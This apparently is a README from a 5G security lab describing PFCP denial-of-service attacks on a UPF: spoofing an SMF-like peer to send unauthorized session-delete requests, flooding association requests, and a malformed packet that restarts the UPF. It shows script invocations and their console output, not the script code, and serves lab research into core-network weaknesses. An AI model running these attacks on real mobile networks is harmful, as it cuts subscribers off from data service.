 # PFCP Based DOS Attacks

These attacks are based on but not exactly the same as those of todo (cite pfcp paper) however instead of taking over the SMF we will just spoof an IP address and act as a second UPF that connects and then commits the unauthorized PFCP based attacks.

These attack work from either the UE or CORE vm you just need the UPF ip address. You only need to not use the same IP as the ligitimate SMF if you don't have the ability to stop the real SMF. Also you need to run and have scapy installed with root provalages to use the functionalities needed.

## Unauthorized PFCP Session Delete Request

Here we connect to a or multiple UPFs and send unauothrized PFCP session delete requests. First we send an association request and then either flood SEIDs or target a specific SEID. Below you can see the standard use. 

```console
user@UE_VM||CORE_VM:~/5G/UE_VM/Exploit_Scripts/DOS/PFCP$ sudo python3 delete_pfcp_session.py -h
sudo python3 delete_pfcp_session.py -s <source_ip> -d <destination_ip> -t <target seid (optional else will flood)> -f <flood range>

user@UE_VM||CORE_VM:~/5G/UE_VM/Exploit_Scripts/DOS/PFCP$ sudo python3 delete_pfcp_session.py -s 10.0.14.10  -d 10.0.17.1 -t 3 #targeting the SEID on upf 10.0.17.1

.
Sent 1 packets.
Sending association request to UPF at:  10.0.17.1
.
Sent 1 packets.
Sending session delete request for SEID:  3  To upf:  10.0.17.1

user@UE_VM||CORE_VM:~/5G/UE_VM/Exploit_Scripts/DOS/PFCP$ sudo python3 delete_pfcp_session.py -s 10.0.14.10  -d 10.0.17.1,10.0.21.1 -f 0,3 #Flood seid 0-3 to both ips 10.0.17.1 and 10.0.21.1

.
Sent 1 packets.
Sending association request to UPF at:  10.0.17.1
.
Sent 1 packets.
Sending association request to UPF at:  10.0.21.1
.
Sent 1 packets.
Sending session delete request for SEID:  0  To upf:  10.0.17.1
.
Sent 1 packets.
Sending session delete request for SEID:  0  To upf:  10.0.21.1
.
Sent 1 packets.
Sending session delete request for SEID:  1  To upf:  10.0.17.1
.
Sent 1 packets.
Sending session delete request for SEID:  1  To upf:  10.0.21.1
.
Sent 1 packets.
Sending session delete request for SEID:  2  To upf:  10.0.17.1
.
Sent 1 packets.
Sending session delete request for SEID:  2  To upf:  10.0.21.1

```
Below you can see an example of a single UE being targeted and malicious user deletes their SEID, so that only one UE no longer has access to the data network.

![targeted seid](../../../../Media/targeted_dos_from_ue.gif)


![Registerue](/5G/Media/regester_ue_upf_log.gif)

## Flood Associate DOS

Another even simpler attack is to simply flood with association requests from different spoofed ips.

```console
user@UE_VM||CORE_VM:~/5G/UE_VM/Exploit_Scripts/DOS/PFCP$ sudo python3 flood_associate.py -d <target IP>
```

![flood associate](../../../../Media/flood_associate_dos.gif)


## Malformed Packet DOS - todo check if spoof real smf ip works

While investigating the other PFCP Dos attacks we found a malformed packet that leads to the upf service restarting and losing all UE data associated, thusly blocking all UE traffic.

```console
user@UE_VM||CORE_VM:~/5G/UE_VM/Exploit_Scripts/DOS/PFCP$ sudo python3 malformed_modify_pfcp_session.py -d <target IP>
```

![malformed dos](../../../../Media/malformed_upf_dos.gif)

